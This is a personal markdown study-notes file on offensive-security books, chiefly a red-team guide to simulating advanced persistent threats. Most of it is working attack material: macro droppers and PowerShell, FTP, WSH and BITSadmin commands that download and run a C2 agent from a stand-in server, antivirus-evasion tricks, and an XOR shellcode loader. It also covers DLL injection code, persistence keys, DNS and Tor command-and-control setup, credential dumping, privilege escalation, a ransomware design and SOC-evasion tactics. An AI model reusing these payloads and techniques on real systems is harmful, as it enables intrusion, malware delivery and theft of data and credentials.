


## Buy 

- Art of Deception (Wiley, 2002)
- Chris Hadnagy’s Social Engineering: The Art of Human Hacking (Wiley, 2010).

## Done 

- Linux Basics for Hackers Getting Started with Networking, Scripting, and Security in Kali

## In progress 

### Advanced Penetration Testing Hacking the World's Most Secure Networks

- Take several case studies of `APT`s and walk the reader through how the attack was done.
- The `Kane` incident 
  - <http://www.securityfocus.com/news/122>
  - `BO2K Remote Access Trojans` by `Cult of the Dead Cow` was left to be discovered. `Washington University's Medical Center` believed that the attack was prevented. 
  
### A Bug Hunter's Diary (Stop: Ch-4)

- <http://www.trapkit.de/books/bhd/en.html>
- Thought process in finding a VLC buffer overflow (TiVo media file)
  - See Dick Grune and Ceriel J.H. Jacobs, Parsing Techniques: A Practical Guide, 2nd ed. (New York: Springer Science+Business Media, 2008), 1.
  - Media samples: <http://samples.mplayerhq.hu/>
  - David Litchfield, “Variations in Exploit Methods Between Linux and Windows,” 2003
    - <https://www.blackhat.com/presentations/bh-usa-03/bh-us-03-litchfield-paper.pdf>
    - <https://www.youtube.com/watch?v=VM1PzvChNv8>
- Sun Solaris IOCTL related kernel vulnerability
  - First use Null pointer dereference to crash the system
    - EIP is set to 0 value and  since 0 is not a valid address, system crashes
    - However, if we map Zero page, it's possible to take control of EIP
  - Then use Zero page to get control over EIP/RIP
    - kernel and the user space of a process share the same zero page: “Attacking the Core: Kernel Exploiting Notes” by twiz & sgrakkyu, which can be found at <http://www.phrack.com/issues.html?issue=64&id=6>

### Advanced Penetration Testing Hacking the World's Most Secure Networks

- APT
  - Capable of developing their own tools
  - Very strong understanding of how modern intrusion detection and prevention systems
  - APT tests involve, whether directly or indirectly, human manipulation. 
  - Steps
    - Initial compromise
      - Usually done with social engineering techniques
      - Casting a wide net to catch the low hanging fruit is not an acceptable way to model APTs
    - Establish beachhead
      - Ensure future access to compromised assets without needing a repeat initial intrusion
      - Command & Control
    - Escalate privileges
    - Internal reconnaissance
    - Network colonization
    - Persist
    - Complete mission
      - Exfiltrate stolen data
  - Mights about signs:
    - Increase in elevated log-ons late at night
    - Finding widespread backdoor Trojans
    - Unexpected information flows
    - Discovering unexpected data bundles
    - Detecting pass-the-hash hacking tools
- THE “KANE” INCIDENT
  - Kane was able to stay hidden in the Medical Center networks by allowing his victims to believe they had expelled him
  - Leaving easily discoverable BO2K Remote Access Trojans
  - <http://www.securityfocus.com/news/122>
- Simulating Advanced Persistent Threat
  - Payload Delivery 
    - Part 1: Learning How to Use the VBA Macro
      - Microsoft Office (2010 onward) the default behavior of the application is to make no distinction between signed and unsigned code
      - How NOT to:
        - `msfvenom -p windows/download_exec -f vba -e shikata-ga-nai -i 5 -a x86 --platform Windows EXE=c:\temp\payload.exe URL=http://www.wherever.com`
        - functions being imported from kernel32.dll
          - create a process thread
          - allocate memory for the shellcode
          - move the shellcode into that memory
        - lot of virus scanners won’t scan the declaration sec- tion, only the main body of code
          - Instead of `Private Declare PtrSafe Function CreateThread Lib "kernel32" (ByVal Zdz As Long, ByVal Tfnsv As Long, ByVal Kyfde As LongPtr, Spjyjr As Long, ByVal Pcxhytlle As Long, Coupxdxe As Long) As LongPtr`
          - Declare `Private Declare PtrSafe Function CreateThread Lib "kernel32" Alias "CTAlias" (ByVal Zdz As Long, ByVal Tfnsv As Long, ByVal Kyfde As LongPtr, Spjyjr As Long, ByVal Pcxhytlle As Long, Coupxdxe As Long) As LongPtr`
          - And use `CTAlias` in  body to bypass some AVs
        - modern antivirus software is capable of passing compiled code (including shellcode) into a micro-virtual machine to test heuristically
        - Do not leave shellcode like structures open
        - Use of one auto-open subroutine is suspicious
          ```VB
          Sub Auto_Open
              Main block of code
          End Sub
          ```
          ```VB
          Sub AutoOpen()
              Auto_Open
          End Sub
          ```
          ```VB
          Sub Workbook_Open()
            Auto_Open
          End Sub
          ```
        - native functions within VBA that allow an attacker to download and execute code from the Internet (these are detected)
          - Shell
          - URLDownLoadToFile
      - Using a VBA/VBS Dual Stager
        - VBA is only ever used within Office documents, VBS is a standalone scripting
        - innocent-looking VBA macro that will carry a VBS payload, write it to file, and execute it
          ```VB
          Sub WritePayload()
              Dim PayLoadFile As Integer
              Dim FilePath As String
          FilePath = "C:\temp\payload.vbs" PayloadFile = FreeFile
          Open FilePath For Output As TextFile Print #PayLoadFile, "VBS Script Line 1" Print #PayLoadFile, " VBS Script Line 2" Print #PayLoadFile, " VBS Script Line 3" Print #PayLoadFile, " VBS Script Line 4"
              Close PayloadFile
          Shell "wscript c:\temp\payload.vbs" End Sub
          ```
      - Code Obfuscation
        - encode the lines of the payload as Base64 and decode them prior to writing them to the target file
        - XOR function
      - Social engineering 
        - imply that information has been sent to them in error
        - it’s something they shouldn’t be seeing
        - Something that would give them an advantage in some way 
        - Something that would put them at a disadvantage if they ignored it.   
        - Give the end user a compelling reason to enable macros.
        - Tailor the attack to the client
        - 
      - Powershell
        ```vb
        Sub powershell()
            ' Powershell Macro
            Dim PSResponse As String
            PSResponse = Shell("PowerShell (New-Object System.Net.WebClient). DownloadFile('http://ourc2server.com/download/c2agent.exe','agent. exe'");Start-Process 'agent.exe'", vbHide)
        End Sub
        ```
      - FTP
        ```bat
        open ourc2server.com
        binary
        get /c2agent.exe
        quit
        ```
        ```bat
        cmd.exe /c "@echo open ourc2server.com>script.txt&@echo binary>>script.txt& @echo get /c2agent.exe>>script.txt&@echo quit>>script.txt&@ftp -s:scrip t.txt -v -A&@start c2agent.exe"
        ```
      - Windows Scripting Host (WSH)
        ```vb
        strFileURL = "http://ourc2server/downloads/c2agent.exe"
        strHDLocation = "agent.exe"
        Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
        objXMLHTTP.open "GET", strFileURL, false
        objXMLHTTP.send()
        If objXMLHTTP.Status = 200 Then
            Set objADOStream = CreateObject("ADODB.Stream")
            objADOStream.Open
            objADOStream.Type = 1
            objADOStream.Write objXMLHTTP.ResponseBody
            objADOStream.Position = 0
            objADOStream.SaveToFile strHDLocation
            objADOStream.Close
            Set objADOStream = Nothing
        End if
        Set objXMLHTTP = Nothing
        Set objShell = CreateObject("WScript.Shell")
        objShell.Exec("agent.exe")
        ```
        ```bat
        cmd.exe /c "@echo Set objXMLHTTP=CreateObject("MSXML2.XMLHTTP")>poc.vbs &@echo objXMLHTTP.open "GET","http://ourc2server/downloads/c2agent. exe",false>>poc.vbs
        &@echo objXMLHTTP.send()>>poc.vbs
        &@echo If objXMLHTTP.Status=200 Then>>poc.vbs
        &@echo Set objADOStream=CreateObject("ADODB.Stream")>>poc.vbs &@echo objADOStream.Open>>poc.vbs
        &@echo objADOStream.Type=1 >>poc.vbs
        &@echo objADOStream.Write objXMLHTTP.ResponseBody>>poc.vbs &@echo objADOStream.Position=0 >>poc.vbs
        &@echo objADOStream.SaveToFile "agent.exe">>poc.vbs
        &@echo objADOStream.Close>>poc.vbs
        &@echo Set objADOStream=Nothing>>poc.vbs
        &@echo End if>>poc.vbs
        &@echo Set objXMLHTTP=Nothing>>poc.vbs
        &@echo Set objShell=CreateObject("WScript.Shell")>>poc.vbs &@echo objShell.Exec("agent.exe")>>poc.vbs&cscript.exe poc.vbs"
        ```
      - BITSadmin: `cmd.exe /c "bitsadmin /transfer myjob /download /priority high http://ourc2server.com/download/c2agent.exe c:\agent.exe&start agent.exe"`
      - Base64 encode:
        ```powershell
        PS > $b = [System.Text.Encoding]::UTF8.GetBytes("PowerShell (N ew-Object System.Net.WebClient).DownloadFile('http://ourc2server.com/download/c2agent.exe','agent.exe');Start-Process 'agent.exe'")
        PS > [System.Convert]::ToBase64String($b)
        ```
    - Part 2: Using the Java Applet for Payload Delivery
      - Java Code Signing
        - completely unrealistic security model that lulls users into a false sense of security.
        - Getting a signing cert:
          - Register a domain name that is similar to an existing business
          - Clone and host that website 
          - Change all phone contact information 
          - Consider a company well outside of the code signer’s normal business area 
        - SMTP: <https://tools.ietf.org/html/rfc6531>
          - never use the same IPs for mail delivery and C2
    - Part 3: Physical Media 
      - official looking letter giving instructions to the target
      - Target Location Profiling
        - Create a list of ~100 and send a mail. Extract address from reply. 
      - installer such as InstallShield or Inno
      - payloads are installed to somewhere they won’t be found and executed, whereas our dummy application should be the thing that draws attention. (install with a desktop icon etc.)
      - also  drop the PowerView PowerShell script
      - When hand delivering.  Don’t queue. 
      - official, appears to come from an official source, and seems mandatory
    - Part 4: Client-Side Exploits 1
      - Flash exploits
    - Part V: Simulating a Ransomware Attack
      - could just be one component in a larger APT scenario
      - Asymmetric cryptography only
        - `libgcrypt`
          - `gcry_pk_encrypt`—Encrypt data using a public key.
          - `gcry_pk_decrypt`—Decrypt data using a private key.
          - `gcry_pk_genkey`—Create a new public/private key pair.
      - Remote key generation
        - C2 agent should send a request to the C2 server requesting that a private and a public key pair be generated
        - Public key is then downloaded to the agent
      - Configurable
        - target specific file groups
        - target local/network shares
      - File operations 
        - enumerate all drives and scan them for files
        - As each file is encrypted, its name should be added to a list somewhere
        - original file should be destroyed through cryptographic scrubbing.
        - secure-delete 
        - hashing and overwriting the file is one example of how this may be achieved
        - encrypted file should be placed in the same directory
      - notify
        - generating a SHA hash of the public key 
        - providing that string as a reference when requesting payment
      - ability to export the names of all encrypted files back to the C2 server
    - Part VI: Deploying with HTA
      - HTA
      - Add icon to hta
    - Part VII: USB Shotgun Attack
      - Starting with Windows 7, the OS no longer supports the AutoRun functionality for non-optical removable media. AutoPlay will still work on CDs and DVDs (the user will be given the option to execute the code, but it won’t happen automatically); however, it will no longer work at all for USB drives
    - Part VIII: Miscellaneous Rich Web Content
      - Java Web Start 
      - Adobe Air
      - InDesign plugin
        - Create a document and package all dependencies with the document
    - Democratic People’s Republic of Korea (DPRK) 
      - Democratic People’s Republic of Korea (DPRK) - Red Star OS
        - No root. Discretionary Access Control (DAC) provided by SE Linux
        - Grant root by: `rootsetting`
        - Stop SE Linux: `setenforce 0` `killall -9 securityd`
        - Kill monitoring apps: `killall scnprc` `killall opprc` 
      - Phone system
        - Needs entry through operator at +850 2 18111 (850 is the country code for DPRK and 2 is Pyongyang)
        - Numbers that can dial internationally cannot dial locally
        - War-dialing. VoIP calling to reduce cost.
        - Record samples. Any tones that fall within a certain frequency we log as modems. Modem responses will contain the following tone DTMFs: 2250hz + 1625hz, 1850hz, 2000hz...
        - WarVOX: <https://github.com/rapid7/warvox>
        - Grab audio/video from android. If SSL site, permissions are requested only once.
  - Command and Control 
    - Part 1: Basics and Essentials
      - Essentials
        - Egress connectivity
        - Stealth
          - fake the timestamp on the executable (show it was there for long time)
          - Svchost.exe and spoolsv.exe make the best targets because there are usually several copies running in memory
        - Remote file system access
        - Remote command execution
        - Secure communications
        - Persistence
          - Windows
            - `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`
            - `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`
            - `HKLM\Software\Wow6432Node\Windows NT\CurrentVersion\Image File Execution Options`
            - Services
              - need to be specially compiled as a Windows service
            - drop a DLL instead of an EXE and reference it from a Registry key using rundll32
               - `rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";alert('Boo!');`
            - largest database of autorun methods: <https://technet.microsoft.com/en-gb/sysinternals/bb963902.aspx>
          - Linux
            - System V init
              - On Older OSes
                - Debian 6 and earlier 
                - Ubuntu 9.04 and earlier 
                - CentOS 5 and earlier
              - Bash init script at `/etc/init.d/service`
              - Then run `sudo update-rc.d service enable`
              - This create a symlink in the runlevel directories 2 though 5
              - Add following to /etc/inittab: `id:2345:respawn:/bin/sh /path/to/application/startup`
              - `sudo service service stop`
              - `sudo service service start`
            - Upstart
              - OSes
                - Introduced: Ubuntu 6
                - Default in: Ubuntu 9.10
                - Red Hat Enterprise 6
                - Google Chrome OS
                - Ubuntu 9.10 to Ubuntu 14.10
                - CentOS 6
            - systemd
              - configuration script in `/etc/init` called `servicename.conf`
              - Make sure it contains (runs on boot and will respawn if it dies): `start on runlevel [2345]<br>respawn`
              - Create: `/etc/systemd/system/multi-user.target.wants/service.service`
                - Should contain: `Restart=always` under `[Service]` section
              - Start: `sudo systemctl enable service.service`
            - cron
            - init files 
              - /etc/profile
              - /etc/profile.d/*.sh
            - Graphical environments  
            - Rootkits: binary on the target system that has been replaced by malicious code yet retains the functionality of the original
          - OSX
            - cron
            - first user-mode app to start is `launchd`. abusable by:
              - `echo bsexec 1 /bin/bash payload.script &gt; /etc/launchd.conf`
            - startup items
              - place two items in a subdir within startup dir (`/System/ Library/StartupItems or /Library/StartupItems`)
                - `StartupParameters.plist` must contain 
                - `Provides` key containing name of script file
                  - name of the sub-directory must be the same as the name of the script file 
        - Port forwarding
        - Control thread
      - C2 Server
        - SSH serving running on TCP port 443
        - Chroot jail to contain the SSH server
        - Modified SSH configuration to permit remotely forwarded tunnels
      - Payload (use `libssh`)
        - Implementation of SSH server on non-standard TCP port (ex: 900)
        - Implementation of SSH client permitting connections back to C2 server
        - Implementation of SSH tunnels (both local and dynamic) over the SSH client permitting C2 access to target file system and processes
    - Part 2: Advanced Attack Management
      - Stealth and Multiple System Management
      - **Beaconing**: periodically call home (your C2 server) for orders rather than immediately establishing an SSH connection and reverse tunnel
      - **Pre-configured command set**—An established set of instructions
        - Sleep (~60 seconds)
        - OpenSSHTunnel
          - SSH connection back to the C2
          - initiate a reverse tunnel allowing C2 to access the target’s file system
          - L22C900
        - Close SSHTunnel
        - OpenTCPTunnel
          - SSH connection back to the C2
          - and open a reverse tunnel to any port on the target for accessing local services
          - LxxxCxxx
        - CloseTCPTunnel
        - OpenDynamic
          - SSH connection back to the C2 
          - and open both a dynamic tunnel and a reverse TCP tunnel pointing to it
          - SOCKS5 proxy server
        - CloseDynamic
        - Task
          - Download an executable from the web
      - **Tunnel management**—The C2 server needs to be able to handle multiple simultaneous inbound connections
      - **Web-based frontend**
        - Web server: tinyhttpd
        - Scripting language: Python
        - Database: PostgreSQL
        - AJAX
        - IPs, hostnames, etc
        - ports are currently open
        - which hosts they are assigned to
        - function to periodically check the status of open tunnels and mark closed
        - have a way to stack commands 
    - Part 3: Advanced Channels and Data Exfiltration
      - ICMP packets were dropped is irrelevant: I can use DNS resolution itself as a means of command and control.
      - `dig +trace` - using iterative querie sand following the referrals all the way
      - communicate to our C2 via recursive DNS queries 
      - 1st POC - Dan Kaminsky in 2004 with OzymanDNS
      - `dnscat2`
        - `sudo apt-get install ruby-dev`
        - <https://github.com/iagox86/dnscat2.git>
        - `ruby ./dnscat2.rb anti-virus-update.com`
        - modifications to the C source to avoid detection
        - ...
        - `listen [0000:]443 localhost:443` to create a tunnel between you and remote 443 (then SSH to remote via tunnel)
    - Part V: Creating a Covert C2 Solution
      - Onion Router
        - Routed through several layers of routers
        - Each layer can only see its own upstream and downstream connections in any session and traffic is encrypted
        - If attackers control the exit node, they can see the traffic going to its final destination
        - correlation attacks that can be executed by major players (example NSA)
          - identified by cross-referencing packets entering and leaving the Tor network
        - C2 server can be provisioned as a node within the Tor network
          - compromised host will connect to Tor when it comes online
          - remaining operational access, even if compromised hosts are detected
      - Impl
        - Tor stores its configuration in a file called torrc
        - To create a hidden service:
          ```
          # Configure hidden service directory Hidden
          ServiceeDir /home/wil/tor_hidden 
          # C2 Web Port
          HiddenServicePort 443 127.0.0.1:4433
          # C2 SSH Port
          HiddenServicePort 7022 127.0.0.1:7022 
          # C2 Metasploit listener
          HiddenServicePort 8080 127.0.0.1:8080
          ```
        - next time Tor is started, two files will be created in the tor_hidden directory
          - private_key file
          - hostname file that contains a hash of the public key
            - address of your C2
        - Agent
          - bundle the tor.exe (rename first) command-line application with the agent and simply execute it without parameters
          - this will open a SOCKS proxy port on localhost 9050
          - Tell the SSH SOCKS proxy to upstream to the Tor SOCKS proxy on TCP 9050
        - Restrictions
          - Some networks may block port TCP 9050 outbound or even dynamically blacklist all Tor nodes
          - Tell C2 agent to use Tor bridges when connecting
          - achieved by adding the following options to the local torrc configuration file (or command line args)
            ```
            Bridge fte 128.105.214.163:8080 A17A40775FBD2CA1184BF80BFC330A77ECF9D0E9 
            Bridge fte 192.240.101.106:80 FDC5BA65D93B6BCA5EBDF8EF8E4FA936B7F1F8E5 
            Bridge fte 128.105.214.162:8080 FC562097E1951DCC41B7D7F324D88157119BB56D 
            Bridge fte 50.7.176.114:80 2BD466989944867075E872310EBAD65BC88C8AEF 
            Bridge fte 131.252.210.150:8080 0E858AC201BF0F3FA3C462F64844CBFFC7297A42
            Bridge fte 128.105.214.161:8080 1E326AAFB3FCB515015250D8FCCC8E37F91A153B
            UseBridges 1
            ```
    - Part VI: The Creeper Box
      - Using Raspberry Pi
      - PoE (forensic analysis become hard)
      - 3G/4G adapter
        - ppp
        - sakis3g
      - Configuring Full-Disk Encryption (this involves lot of steps. Ref to book for details)
      - Enable the SSH server
      - change the MAC address (router/switch)
      - configuring a fake Cisco telnet or SSH daemon
      - bridge between between either a switch and a host or a switch and router
        - bridge-utils
      - Using a Pi as a Wireless AP to Provision Access by Remote Keyloggers
      - Label that says "Do not tamper"with company logo.
    - Part VII: Advanced Autonomous Data Exfiltration
      - Physical Media
        - Detect removable media 
        - Target data to exfiltrate packaged on to the drive
        - Embedded into some pseudo-executable format (HTA)
        - "Hail Mary"
        - BlackHat: <https://www.youtube.com/watch?v=nuruzFqMgIw>
          - USB act like a regular drive. 
          - When plugged in during boot, it act as a keyboard and a linux drive.
          - Replace the bootloader with its own.
      - Dropbox to bypass restrictions (Dropbox doesn't do malware checks)
      - Email
        - Use API when possible: example: Outlook API
        - check if a domain has SPF protection (before spoofing)
      - Wifi
        - Connect the laptop via wireless to an AP that you control
        - hidden feature in Windows that allows you to host your own AP while being simultaneously connected to another one with the same adapter (Internet Connection Sharing)
          - `netsh wlan set hostednetwork mode ="allow" ssid="C2backdoor" key = "password"`
          - `net start SharedAccess`
      - Mobile data / Bluetooth / SMS
      - Dongle 
        - stealth installs the 3G/4G drivers
          - silent install: `setup_vmb.exe s /L2057 /v"OPCO_PROP=23415 /qn /norestart"`
        - establishes C2
        - (talk about adding a label that says: SIPDIS means it’s for SIPRNet distribution and NOFORN means No Foreign Nationals )
          - Reciever will plug it to SIPRNet workstation to know what's inside
    - Part VIII: Experimental Concepts in Command and Control
      - C2 Server Guided Agent Management
        - allow the C2 server to assign roles to the C2 agents
        - one becomes master, others send data to master (master repaly to C2)
          - have timeout and failover mechanisum
        - HTTPS is not recommended for carrying C2 data outside the network
          - Due to border level security
        - May use ICMP, SNMP, fake RIP and OSPF messages
      - Semi-Autonomous C2 Agent Management
        - broadcast packet or a fake ARP packet can be used to enable nodes that are not aware of each other’s presence
        - elect a master
          - The host with the most points becomes the new master
          - points:
            - Relative importance of the node (DC)
            - Previous reliability of the node as noted by uptime
            - Communication reliability in general (score decrease with every failure)
            - Random jitter to avoid stagnation
        - master responsible of
          - monitoring slaves
          - motify c2 if slave goes  offline
          - central conduit between the C2 server and the C2 slave nodes
          - Correctly routing C2 messages to C2 slave nodes (c2 only say slave ID)
          - should not be used for initiating a new election (that is reponsibility of all)
  - The Attack
    - Bypassing Authentication
      - browser pivoting - transparently exploit his or her permissions
        - DLL Injection - Inject code into the IE process 
          - migrate code between processes is a core skill in APT modeling
          - process of inserting code into an existing (running) process
          - use the `LoadLibraryA()` function in `kernel32.dll`
            - this function will register our DLL with the target process
            - big antivirus no-no
          - Better approach:
            - Attach to the target process (in this case Internet Explorer).
              - `hHandle = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION |`
            - Allocate memory within the target process.
              - `PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_VM_READ,FALSE,procID );`
              ```C#
              GetFullPathName(TEXT("proxy.dll"), BUFSIZE, dllPath, NULL);
              hFile = CreateFileA( dllPath, GENERIC_READ, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
              dllFileLength = GetFileSize( hFile,NULL );
              remoteDllAddr = VirtualAllocEx( hProcess, NULL, dllFileLength, MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READWRITE );
              ```
            - Copy the DLL into the target process memory and calculate an appropriate memory addresses.
              ```C#
              lpBuffer = HeapAlloc( GetProcessHeap(), 0, dllFileLength ); 
              ReadFile(hFile, lpBuffer, dllFileLength, &dwBytesRead, NULL);
              WriteProcessMemory(hProcess, lpRemoteLibraryBuffer, lpBuffer, dllFileLength, NULL);
              dwReflectiveLoaderOffset = GetReflectiveLoaderOffset(lpWriteBuff);
              ```
            - Instruct the target process to execute your DLL.
              ```C#
              rThread = CreateRemoteThread(hTargetProcHandle, NULL, 0, lpStartExecAddr, lpExecParam, 0, NULL);
              WaitForSingleObject(rThread, INFINITE);
              ``` 
        - Create a web proxy Dynamic Link Library (DLL) based on the Microsoft WinInet API
          - Internet Explorer uses the WinInet API exclusively for communication
          - Inject proxy to intercept and read session finroamtion
        - Pass web traffic through our SSH tunnel and the newly created proxy
    - Situational Awareness
      - ascertain exactly where you are in a target’s network
      - what privileges you have
      - <https://github.com/PowerShellEmpire/PowerTools>: collection of PowerShell projects with a focus on offensive operations
      - PowerView, can be used to query the AD in a number of ways
        ```
        c:> powershell.exe -nop -exec bypass
        PS c:> import-module .\powerview.ps1
        PS c:> Get-NetDomain | Out-File -Encoding ascii domains.txt
        PS c:> Get-NetComputer -FullData | Out-File -encoding ascii machines.txt
        PS c:> Get-NetUser -FullData | Out-File -encoding ascii users.txt
        ```
      - FortiGate OS Version 4.8
      - `sqlcmd -s medlab03-SQL -u coll-domain/dgammon -p ILoveJustinBieber -q "exec sp_databases"`
      - `sqlcmd -s medlab03-SQL -u coll-domain/dgammon -p ILoveJustinBieber -Q "BACKUP DATABASE perfuse_db TO DISK='C:\perfuse_db.bak'"`
      - Get IPs of hosts:
        ```
        foreach ($computer in (get-content C:\hosts.txt)) { Try{
            [system.net.Dns]::GetHostAddresses($computer) | Foreach-Object { add-content -path C:\hosts-ips.txt -value "$($_.IPAddressToString)"}
        } Catch {
        } }
        ```
    - Migration
      - Process
        - Checking if the meterpreter process has the `SeDebugPrivilege`
        - Getting payload from the handler & Calculating its length
        - Calling the `OpenProcess()` API to gain access to the virtual memory of the target process.
        - Calling the `VirtualAllocEx()` API to allocate an RWX (Read, Write, Execute) memory in the target process.
        - Calling the `WriteProcessMemory()` API to write the payload in the target memory virtual memory space.
        - Calling the `CreateRemoteThread()` API to execute the newly created memory stub having the injected payload in a new thread.
        - Terminating the initial Meterpreter process.
      - Uses
        - migrate into the `lsass.exe` process and dump cached hashes without touching the disk
        - Windows logon credentials, you must first inject into the `winlogon.exe` process
    - After compromise 
      - Check if  a domain-admin has signed into a machine where you have local-admin access to: PowerView `Invoke-StealthUserhunter -GroupName "Domain Admins"`
      - Impersonate domain admin:
        ```
        meterpreter > use incognito
        meterpreter > getuid
        meterpreter > list_tokens -u
        meterpreter > impersonate_token PHARMA\globaladmin
        ```
      - Search for files: `dir \\hostname\c$\*.xl* /s/b`
        - `Personal Storage Table (.pst)`
        - `Offline Stored Table (.ost)`
      - WMIC installer, which will allow us to invisibly deploy software remotely without any further user interaction:
        ```
        wmic
        > /node::@"c:\computers.txt" product call install true,"" , "c:\ PathToYour\File.msi
        ```
      - Credentials
        - Decrypting the credential store
        - copy the encrypted hashes
          - re-create the login file or Registry entries locally
          - let you access the applications they are intended to secure
          - use a network sniffer (such as Wireshark) on your own machine to see the password transmitted in the clear
      - Keyloggers and Cookies
        - delete the cookies and force the users to log in: `RunDll32.exe InetCpl.cpl,ClearMyTracksByProcess 2`
        - Chrome: Delete relevant file in: `C:\Users\&lt;username&gt;\AppData\Local\Google\Chrome\User Data`
      - Windows Previlege Escalation 
        - Local exploit
          - `wmic qfe get Caption,Description,HotFixID,InstalledOn`
          - `wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:"KB2393802"`
          - <https://github.com/GDSSecurity/Windows-Exploit-Suggester.git>
        - Flawed installation method
          - `sysprep.inf`
          - `sysprep.xml`
          - `unattended.xml`
        - Scheduled tasks
          - `schtasks /query /fo LIST /v`
          - `schtasks /create /tn <TaskName> /tr <TaskRun> /sc onstart`
          - `schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon`
          - `schtasks /create /tn <TaskName> /tr <TaskRun> /sc onidle /i {1 - 999}`
          - `schtasks /create /tn <TaskName> /tr <TaskRun> /sc once /st <HH:MM>`
          - `schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon /ru System` runs with system permissions
          - `schtasks /create /tn <TaskName> /tr <TaskRun> /sc onlogon /s <PC_Name>` runs on a remote computer
        - Vulnerable services
          - `net start`
          - `sc qc VulnService`
          - `accesschk.exe -ucqv VulnService`
          - `sc config VulnPath binpath= "C:\temp\c2agent.exe"`
          - `sc config VulnPath obj= ".\LocalSystem" password= ""`
        - DLL hijacking
          - DLL is loaded into the process space of the program calling it (becomes part of that program)
          - DLL has no execution permissions of its own
          - inherits permissions from the executable that imports it
          - Recon:
            - Which processes will load with elevated privileges
            - Which DLLs you can overwrite with the privileges you have
            - What DLLs are being imported by any given process
          - Workflow:
            - search processes: `tasklist.exe /FI "username eq system" /v`
            - `Dependency Walker` to identify DLLs used 
            - `icacls mmfs2.dll` to check permissions 
            - craft DLL (c++)
              ```c++
              #include <windows.h> 
              #include <stdio.h>
              BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
              {
                printf("This string will be written to the console when this DLL is imported\n");
                break; 
              }
              ```
        - Registry checks
          - AlwaysInstallElevated
    - CallerID
      -  VoIP vendors that allow outbound calling globally for low rates
      -  critically—the option to set your own Caller ID and SMS number (CallWithUs)
  - Detection and the Security Operations Center
    - IDS
      - Network Intrusion Detection System (NIDS)
        - passive sniffing interfaces
        - data directly from the switch (span, tap, or mirror port)
        - don’t hose network’s core bandwidth
      - Host-based Intrusion Detection System (HIDS)
        - problems on end-points
        - file integrity monitoring, rootkit checks, and Windows Registry checks.
      - IDS
        - monitors network traffic for malicious behavior, system log messages, and user activity.
      - 
    - IDS Evasion
      - AlienVault trial can be used to test
      - understand its OTX (Open Threat eXchange) integration
      - `EventRisk = (AssetValue × EventPriority × EventReliability) / 25`
      - asset with a low value and priority with a rule that is not considered to be sufficiently reliable is not going to get flagged
      - aim to compromise endpoints that are going to have the lowest asset value (printer)
      - Cisco router will likely be considered a high-value asset but monitoring usually has to be carefully tuned to avoid excess false positives
      - A light port scan coming from a Cisco device will likely not be flagged or be immediately closed by the SOC team
      - TCL scripting language in Cisco devices can be used to script an attack
    - Security Operations Center (SOC) 
      - these are the people you have to beat in an APT modeling exercise
      - Team:
        - **Shift manager** — Responsible for handovers between shifts and associated duties (briefing status)
        - **First line SOC analysts** — Working in shifts 24/7 monitoring the SIEM
          - attack is detected, a ticket is raised and passed to the second line analysts
        - **Second line SOC analysts** — Also available 24/7, although not necessarily on site
          - determine if the ticket is a false positive or needs to be escalated to the third line analysts
        - **Third line SOC analysts** — Technically available 24/7 depending on the nature of the incident
          - serious ongoing security incident or “active shooter” scenario
      - final hour of a shift change in the early hours of the morning (3-4am) will likely be the time when the SOC reaction time is at its slowest
      - Disrupt: 
        - Stage an attack on a different part
        - Vulnerability scanners and brute force authentication attacks from multiple IPs
        - Aim to put as many tickets between you and your attack
    - AV Evading
      - x86/shikata_ga_nai and XORing it with a simple key and use loader:
        ```c
        #include <windows.h>
        #include <iostream>
        int main(int argc, char **argv) {
          char b[] = {/* your XORd with key of 'xyz' shellcode goes here*/}; char c[sizeof b];
          for (int i = 0; i < sizeof b; i++) {c[i] = b[i] ^ 'x';}
          void *exec = VirtualAlloc(0, sizeof c, MEM_COMMIT, PAGE_EXECUTE_ READWRITE);
